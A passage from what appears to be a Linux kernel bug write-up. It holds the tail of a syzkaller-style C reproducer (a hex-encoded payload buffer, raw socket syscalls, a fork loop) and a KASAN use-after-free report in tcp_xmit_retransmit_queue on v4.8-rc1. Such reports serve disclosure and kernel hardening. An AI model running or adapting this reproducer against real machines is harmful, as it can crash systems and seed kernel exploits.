b\x31\x62\xef\x04\x10\x68\x6c\x3c\xd1\xba\x73\xc1\xaa\xf2\xe4\xbd\x29\xdb\x2c\xe3\x69\xf0\x34\x8d\xd3\x6b\x6e\x59\x42\x6f\x28\x3d\x2f\x83\x27\x48\xc0\xb7\x82\xd3\x95\x96\x0c\xdf\x22\xc7\xce\x77\xab\x09\x4c\xad\xab\x0d\x70\xee\x4d\xea\xb3\x63\x62\x04\x6f\xd7\x68\x2e\x86\x7c\xac\xd4\xc2\x6e\x09\xdf\xf0\xbe\x8c\x71\xd9\xa8\x82\xf8\xd2\x14\x70\xb7\xd0\x40\x12\x5e\xa7\xec\xab\x1a\x13\x87\x0b\x6e\x28\x59\x76\x01\xb2\x3f\x64\x62\x35\xb3\xff\x0d\x8a\x3d\x6b\x5a\xd3\x9e\x59\x14\x6d\x19\x4c\x99\x04\x75\xe4\x04\xe3\xf2\x8a\x19\x77\x06\xdd\x5f\x2e\x25\x2c\xa3\xb5\x52\xa6\xfa\x2b\x84\x35\xdc\x56\x55\x02\x63\x79\x81\x3b\x27\x82\x41\x92\x19\xb3\xe3\x63\xce\xb5\x0c\x1a\x15\x15\x38\x2a\x52\xf0\xdd\x58\x3d\xa4\x7f\x5b\xb9\xa3\x9c\x90\x14\xf9\x2c\x2b\xaa\x1e\x0d\xfd\xf6\x93\x7e\xbc\xc3\x59\x11\x6e\xd9\x52\x1e\xd0\xea\x0b\x55\x0b\x71\xfa\x69\xda\x9d\x35\x10\x70\x32\x68\xe8\xde\x47\x74\x1f\xc6\x60\x86\xbd\x15\x1c\x6b\x52\xeb\xe4\x04\x0f\x8c\x70\x2f\x8d\x6d\x7e\x5f\xfd\xe7\xd1\x87\x80\x76\xd8\x7a\x2c\xbf\xb2\x98\x12\x83\x81\x94\x11\x7d\x1c\x90\xfd\xf0\xdc\xe6\x9d\xee\x76\xde\x50\xcb\x97\x25\xca\x88\xd8\x70\x97\x40\x25\x94\xc5\xfe\x8b\x44\x05\x8d\x6e\x7f\xab\xc3\x27\xd8\x0e\x4a\x30\xb5\xfb\x95\xf8\x34\x75\x01\x1f\xe6\xac\x81\x1b\x13\x63\xb7\x60\xb8\x1c\x3b\xda\x07\x26\x9e\xfd\xeb\x7f\x43\x46\x93\x75\x63\xdc\xa7\xe9\xc1\x8f\xa9\x06\x96\xe7\x10\x87\xb4\x32\x4a\x30\x69\xd2\xf4\x2b\x5d\x76\xa3\x94\x6b\x72\xd9\xc6\xfa\x6a\x49\x12\xc7\xc2\x74\x3f\xc4\x39\x9f\xa0\x7e\xcd\x81\x9c\x54\x0f\x14\xce\xd3\x7e\xd8\xe8\xd2\xc2\x24\x2e\xc5\x1b\x58\xf8\x8e\xe6\xaa\x16\x69\x6c\x4b\x40\x86\x1a\x1a\xad\x11\x6f\x90\x48\x68\x93\xb1\x8f\xbd\xaf\x8d\x00\x09\x5e\xf4\xe3\x03\x59\xff\x8f\xf5\xf0\xe2\xa1\x79\x93\xf5\x76\xcb\x56\x93\xb8\xe6\x22\xe5\x69\x90\x3d\x0f\x9b\x57\x86\x19\xf7\x63\xd5\x2c\xfe\xad\x63\x60\x9e\x9e\x29\x04\xe9\x4d\xb6\xd9\xb1\xdb\x42\x2d\x8b\x8d\x6d\xdd\xae\x0b\xca\x58\x38\xf4\x30\xad\xae\xa3\x3d\x64\x47\xe0\x77\xc3\xed\xc8\xe0\x7d\x3c\x6c\xda\xbd\x47\x5e\x37\xb4\xe4\xb8\x1c\x69\x16\xb6\xd5\x8b\x9a\x15\xfa\x6b\x21\x88\x74\xbb\xdf\xe3\xbe\x31\x02\x8e\x82\x81\x10\x98\x24\x74\x04\xad\xe3\xc5\x63\x57\x0d\x58\xbe\x1c\x97\xa1\x0d\xb6\x55\x83\x18\x41\x37\xa7\x1b\x51\x37\x13\x99\xeb\x6f\xe3\x70\xc2\x4a\x8c\x17\xc6\x30\x8d\x01\xfe\xd4\x71\x4c\xee\x82\x94\xe4\x1d\x9a\x8a\xed\x48\x61\xba\x6c\x63\x5f\x3b\x13\x9f\x5b\xe4\x0b\x2c\x44\x1c\xb7\xf6\xc7\x64\xf6\x74\x4a\x16\x7a\x35\xf7\x2e\x9d\x4f\x00\x38\xa7\xad\xe7\x17\x0c\xb7\x3f\x02\x41\xe9\xa3\x37\x5b\x98\xd5\x0f\xc6\xe6\xd1\x38\x4e\x87\x4f\x2f\x02\xa1\x27\x4d\xb2\x03\xfc\x50\x48\xaa\x33\x92\xe1\x10\xa6\x0b\xb0\x20\x7c\x57\xd4\x85\x55\x51\x6e\x7e\xdf\xa2\x46\xf5\x94\x93\x03\x02\xdb\x94\x55\x23\xd9\x5b\x99\x2b\x3a\x7e\x7d\xb1\x80\x47\xf9\x77\xee\x0f\x5e\x63\x7f\x1e\x96\xdf\xf9\x1c\x81\x55\xdd\x02\x81\x87\xc8\x04\x52\x59\x49\xd4\x08\xd5\x73\x43\x3f\xd2\xf9\xa9\xf0\xd7\xb9\x97\x86\x9c\x0a\xc6\x7d\x5a\x98\x88\x2b\x0b\x38\xa1\xcb\xf8\x71\xc7\x5d\xfe\xba\xd0\x26\x4b\xdf\xb8\x11\x8f\x71\x60\x68\xc7\x82\xd0\x36\x97\x23\x56\xda\x52\x58\x90\x0a\x42\x0b\xfc\xf8\xc9\x1f\x36\x7f\x9f\xe5\x5b\xf8\x6e\xe1\x78\x47\xfe\x6b\x00\xcd\xe5\x6b\xe2\xa6\xaf\x2b\x33\x95\x73\x79\x52\x13\x1c\x87\x3d\x8d\xbc\x32\x1e\x11\x25\x91\x51\xa0\xaf\xcc\xf1\xc3\x5a\xea\x8b\x15\x82\x76\xa9\x0f\xe7\x08\x73\x53\x02\x4c\x8c\xb2\x8d\x4b\xa0\xed\x37\x20\x7f\x54\xa2\x2a\x33\x6b\x5f\x3a\x4f\x54\x61\x85\x91\x86\x68\x5a\xd4\x80\xc9\x21\xa9\x16\x5d\x77\xee\x28\xeb\xc2\x5c\x22\xe4\x27\xdb\x5b\xe4\xa7\x70\xdc\x6a\x8e\xd9\xe7\x77\x09\x5b\x94\x97\xc6\xf4\x1f\x7a\x35\x9e\x26\x1e\x8b\x37\xe3\xa4\xdc\x0a\x8a\x19\x59\x3a\x77\x81\x2d\x9b\x0e\x51\x2b\xd7\xc5\xbc\x07\xfa\xf3\x29\x79\x35\x98\xe3\xb8\xf7\xe5\x40\xdf\xa8\x93\x00\xf6\x53\x8c\xcc\x33\xdf\x0e\x35\x3e\x72\x8d\x48\x85\x05\x40\x43\xe1\x13\xd6\x4a\x95\x50\xf8\x32\xca\xc3\x1c\x28\xd4\x41\x15\x64\xc1\x08\xfb\x2c\xc2\x1f\x79\x30\x58\xaa\x7c\x0d\x83\x8e\x87\xf4\x2e\xa3\xfc\xeb\xd0\xdb\xcc\x15\xcd\x88\x99\x41\x75\x13\xc1\x0c\x53\x96\xfe\xff\xeb\x87\x6a\x04\x75\xf2\x98\x40\x7e\xc7\x4e\x47\x63\x31\x2f\xb2\xa2\x88\x30\xca\x49\xfb\x57\x40\x65\x8c\xc9\x80\x20\xb9\xc9\xfc\x79\x12\x8d\xe6\x24\x24\x5f\x38\x47\x3c\x93\x64\x41\x9a\xf2\xe8\xab\xc1\xaf\x13\x95\x5c\x26\x4e\x02\x99\x5f\x6a\xe3\xd4\x91\x0a\xf5\x06\x3a\x2d\xc9\x22\x96\x6b\xa0\x77\x00\x77\x7c\x26\xdc\xb6\xc1\x1b\x6c\xc8\xfe\x43\x2c\xe2\xdc\x58\x7e\x30\x38\x98\x97\xdf\xda\xae\x9d\x40\x94\xb7\x16\x91\x66\x94\x6c\x2a\x50\x39\x69\xce\xb4\x5c\xec\x2e\x60\x71\x92\xa3\x14\x1f\x08\x70\xcb\x9c\x47\x5b\xf3\xf4\xea\x7a\x34\x43\x32\x8b\x19\x57\xd2\xe7\x1c\xc5\xeb\xa5\x66\x37\x73\x80\x59\xac\x1e\xc0\x2f\xf1\x30\xf4\xd0\xc7\x78\x2b\x38\xd3\xab\x74\xfd\x4d\xdf\x5e\xc5\xa7\x89\x1b\xb7\x76\xf5\xf9\xfd\xca\xfc\xc2\x0d", 4096);
        r[53] = syscall(SYS_sendto, r[10], 0x20015285ul, 0x1000ul, 0xc080ul, 0x0ul, 0x0ul);
        r[54] = syscall(SYS_mmap, 0x20022000ul, 0x1000ul, 0x3ul, 0x32ul, 0xfffffffffffffffful, 0x0ul);
        *(uint32_t*)0x20022fdd = (uint32_t)0x28;
        *(uint32_t*)0x20022fe1 = (uint32_t)0x400;
        *(uint64_t*)0x20022fe5 = (uint64_t)0x0;
        *(uint64_t*)0x20022fed = (uint64_t)0x8ab;
        *(uint64_t*)0x20022ff5 = (uint64_t)0xfffffffffffffffb;
        *(uint16_t*)0x20022ffd = (uint16_t)0x5;
        r[61] = syscall(SYS_write, r[10], 0x20022fddul, 0x28ul, 0, 0, 0);
        } else if (pid > 0) {
            int returnStatus;
            waitpid(pid, &returnStatus, 0);
            printf("collected child\n");
        } else {
            printf("fork failed\n");
            exit(1);
        }
    }
    return 0;
}


// KASAN report on v4.8-rc1, equivalent on master

/*
[   21.446876] BUG: KASAN: use-after-free in tcp_xmit_retransmit_queue+0xc75/0xdb0 at addr ffff88007a06d428
[   21.447953] Read of size 4 by task rsyslogd/1612
[   21.448465] CPU: 0 PID: 1612 Comm: rsyslogd Tainted: G    B           4.8.0-rc1 #1
[   21.449263] Hardware name: QEMU Standard PC (i440FX + PIIX, 1996), BIOS Ubuntu-1.8.2-1ubuntu1 04/01/2014
[   21.450270]  0000000000000000 0000000015e55fbd ffff88007dc07268 ffffffff81bef151
[   21.451135]  ffff88011cfb0d80 ffff88007a06d400 ffff88007a06d5a8 ffff88007a06d400
[   21.452002]  ffff88007dc07290 ffffffff815d0351 ffff88007dc07328 ffff88007a06d400
[   21.452873] Call Trace:
[   21.453142]  <IRQ>  [<ffffffff81bef151>] dump_stack+0x83/0xb2
[   21.453835]  [<ffffffff815d0351>] kasan_object_err+0x21/0x70
[   21.454450]  [<ffffffff815d05f4>] kasan_report_error+0x204/0x500
[   21.455135]  [<ffffffff815d0a31>] __asan_report_load4_noabort+0x61/0x70
[   21.455899]  [<ffffffff82a90f55>] ? tcp_xmit_retransmit_queue+0xc75/0xdb0
[   21.456624]  [<ffffffff82a90f55>] tcp_xmit_retransmit_queue+0xc75/0xdb0
[   21.457329]  [<ffffffff82a53aba>] tcp_xmit_recovery.part.54+0x2a/0x120
[   21.458028]  [<ffffffff82a69c96>] tcp_ack+0x2716/0x4ed0
[   21.458590]  [<ffffffff815cf6e6>] ? save_stack+0x46/0xd0
[   21.459189]  [<ffffffff815cf95d>] ? kasan_kmalloc+0xad/0xe0
[   21.459804]  [<ffffffff82a67580>] ? tcp_fastretrans_alert+0x2dc0/0x2dc0
[   21.460540]  [<ffffffff82a5a63f>] ? tcp_parse_options+0x18f/0xb20
[   21.461237]  [<ffffffff811ea161>] ? ttwu_do_wakeup+0x21/0x2d0
[   21.461865]  [<ffffffff82a6e8b1>] ? tcp_validate_incoming+0x821/0x1210
[   21.462581]  [<ffffffff81c0e93e>] ? put_dec+0x2e/0xc0
[   21.463167]  [<ffffffff82a74201>] tcp_rcv_established+0x5b1/0x20c0
[   21.463884]  [<ffffffff815cfaa5>] ? memcpy+0x45/0x50
[   21.464414]  [<ffffffff828ec80a>] ? __copy_skb_header+0x19a/0x1f0
[   21.465057]  [<ffffffff82a73c50>] ? tcp_data_queue+0x4240/0x4240
[   21.465719]  [<ffffffff828eca97>] ? __skb_clone+0x237/0x7a0
[   21.466326]  [<ffffffff815cbed8>] ? kmem_cache_alloc+0xb8/0x1b0
[   21.466954]  [<ffffffff82baa6b7>] ? rt6_check_expired+0xa7/0x120
[   21.467591]  [<ffffffff82bae7f2>] ? ip6_dst_check+0x262/0x410
[   21.468231]  [<ffffffff82c0ff52>] tcp_v6_do_rcv+0x642/0x13c0
[   21.468836]  [<ffffffff82c148d2>] tcp_v6_rcv+0x1a32/0x2550
[   21.469462]  [<ffffffff81233abb>] ? trigger_load_balance+0x3fb/0x8b0
[   21.470179]  [<ffffffff82beaa55>] ? raw6_local_deliver+0x555/0x6f0
[   21.470953]  [<ffffffff82b82dec>] ip6_input_finish+0x2ac/0xd50
[   21.471600]  [<ffffffff82b8396a>] ip6_input+0xda/0x1f0
[   21.472149]  [<ffffffff81117670>] ? kvm_guest_apic_eoi_write+0x70/0x90
[   21.472870]  [<ffffffff82b83890>] ? ip6_input_finish+0xd50/0xd50
[   21.473521]  [<ffffffff8128a722>] ? handle_fasteoi_irq+0x362/0x6a0
[   21.474210]  [<ffffffff810f56c0>] ? ioapic_ir_ack_level+0xd0/0xd0
[   21.474858]  [<ffffffff82b8291e>] ip6_rcv_finish+0x11e/0x340
[   21.475487]  [<ffffffff82b84806>] ipv6_rcv+0xd86/0x1750
[   21.476043]  [<ffffffff82b83a80>] ? ip6_input+0x1f0/0x1f0
[   21.476615]  [<ffffffff82cadeb5>] ? _raw_spin_unlock_irqrestore+0x15/0x20
[   21.477332]  [<ffffffff815d03d7>] ? kasan_end_report+0x37/0x50
[   21.478956]  [<ffffffff815d0825>] ? kasan_report_error+0x435/0x500
[   21.479618]  [<ffffffff82b83a80>] ? ip6_input+0x1f0/0x1f0
[   21.480250]  [<ffffffff8293926f>] __netif_receive_skb_core+0x15df/0x26c0
[   21.481017]  [<ffffffff812092c0>] ? update_curr+0x150/0x4e0
[   21.481700]  [<ffffffff82937c90>] ? netdev_info+0x120/0x120
[   21.482339]  [<ffffffff812bf12b>] ? hrtimer_active+0x1db/0x280
[   21.482969]  [<ffffffff81206b3d>] ? cpu_load_update+0x1bd/0x350
[   21.483619]  [<ffffffff81227f2c>] ? task_tick_fair+0x119c/0x2420
[   21.484295]  [<ffffffff810fddf1>] ? __x2apic_send_IPI_dest.constprop.4+0x31/0x40
[   21.485101]  [<ffffffff810fe072>] ? x2apic_send_IPI+0x72/0xa0
[   21.485739]  [<ffffffff8293a37f>] __netif_receive_skb+0x2f/0x170
[   21.486383]  [<ffffffff8293e1a7>] process_backlog+0x197/0x580
[   21.487021]  [<ffffffff8293bc9a>] net_rx_action+0x6ca/0xbb0
[   21.487615]  [<ffffffff8293b5d0>] ? sk_busy_loop+0x7b0/0x7b0
[   21.488258]  [<ffffffff8111850e>] ? kvm_clock_get_cycles+0x1e/0x20
[   21.488909]  [<ffffffff812d3e90>] ? ktime_get+0xb0/0x110
[   21.489471]  [<ffffffff810fdc1b>] ? native_apic_msr_write+0x2b/0x30
[   21.490147]  [<ffffffff812e3ca6>] ? clockevents_program_event+0x246/0x340
[   21.490868]  [<ffffffff82cb121e>] __do_softirq+0x1ce/0x57d
[   21.491470]  [<ffffffff811769d7>] irq_exit+0x117/0x140
[   21.492035]  [<ffffffff82cb0dd0>] smp_apic_timer_interrupt+0x80/0xa0
[   21.492712]  [<ffffffff82caf062>] apic_timer_interrupt+0x82/0x90
[   21.493378]  <EOI> Object at ffff88007a06d400, in cache skbuff_fclone_cache size: 424
[   21.494277] Allocated:
[   21.494538] PID = 1711
[   21.494801]  [<ffffffff810b308b>] save_stack_trace+0x2b/0x50
[   21.495416]  [<ffffffff815cf6e6>] save_stack+0x46/0xd0
[   21.495970]  [<ffffffff815cf95d>] kasan_kmalloc+0xad/0xe0
[   21.496572]  [<ffffffff815cfe92>] kasan_slab_alloc+0x12/0x20
[   21.497185]  [<ffffffff815cc51e>] kmem_cache_alloc_node+0xfe/0x1d0
[   21.497853]  [<ffffffff828f21f2>] __alloc_skb+0xd2/0x5d0
[   21.498475]  [<ffffffff82a480fd>] sk_stream_alloc_skb+0xbd/0x790
[   21.499129]  [<ffffffff82a4b464>] tcp_sendmsg+0x13f4/0x2d10
[   21.499754]  [<ffffffff82afb2ac>] inet_sendmsg+0x24c/0x350
[   21.500371]  [<ffffffff828d58ef>] sock_sendmsg+0xcf/0x110
[   21.500988]  [<ffffffff828d5b52>] sock_write_iter+0x222/0x3c0
[   21.501625]  [<ffffffff8162d10b>] __vfs_write+0x3cb/0x640
[   21.502249]  [<ffffffff8162e315>] vfs_write+0x175/0x4a0
[   21.502838]  [<ffffffff81631b78>] SyS_write+0xd8/0x1b0
[   21.503429]  [<ffffffff82cae476>] entry_SYSCALL_64_fastpath+0x1e/0xa8
[   21.504144] Freed:
[   21.504368] PID = 1711
[   21.504628]  [<ffffffff810b308b>] save_stack_trace+0x2b/0x50
[   21.505290]  [<ffffffff815cf6e6>] save_stack+0x46/0xd0
[   21.505879]  [<ffffffff815cff13>] kasan_slab_free+0x73/0xc0
[   21.506501]  [<ffffffff815cb70c>] kmem_cache_free+0x7c/0x210
[   21.507128]  [<ffffffff828eba3b>] kfree_skbmem+0x7b/0xf0
[   21.507752]  [<ffffffff828f3e22>] __kfree_skb+0x22/0x30
[   21.508339]  [<ffffffff82a4b8ad>] tcp_sendmsg+0x183d/0x2d10
[   21.508962]  [<ffffffff82afb2ac>] inet_sendmsg+0x24c/0x350
[   21.509574]  [<ffffffff828d58ef>] sock_sendmsg+0xcf/0x110
[   21.510194]  [<ffffffff828d5b52>] sock_write_iter+0x222/0x3c0
[   21.510818]  [<ffffffff8162d10b>] __vfs_write+0x3cb/0x640
[   21.511408]  [<ffffffff8162e315>] vfs_write+0x175/0x4a0
[   21.512003]  [<ffffffff81631b78>] SyS_write+0xd8/0x1b0
[   21.512562]  [<ffffffff82cae476>] entry_SYSCALL_64_fastpath+0x1e/0xa8
[   21.513258] Memory state around the buggy address:
[   21.513770]  ffff88007a06d300: 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
[   21.514546]  ffff88007a06d380: 00 00 00 00 00 fc fc fc fc fc fc fc fc fc fc fc
[   21.515310] >ffff88007a06d400: fb fb fb fb fb fb fb fb fb fb fb fb fb fb fb fb
[   21.516114]                                   ^
[   21.516611]  ffff88007a06d480: fb fb fb fb fb fb fb fb fb fb fb fb fb fb fb fb
[   21.517400]  ffff88007a06d500: fb fb fb fb fb fb fb fb fb fb fb fb fb fb fb fb
[   21.518203] ==================================================================
*/
{% endhighlight %}
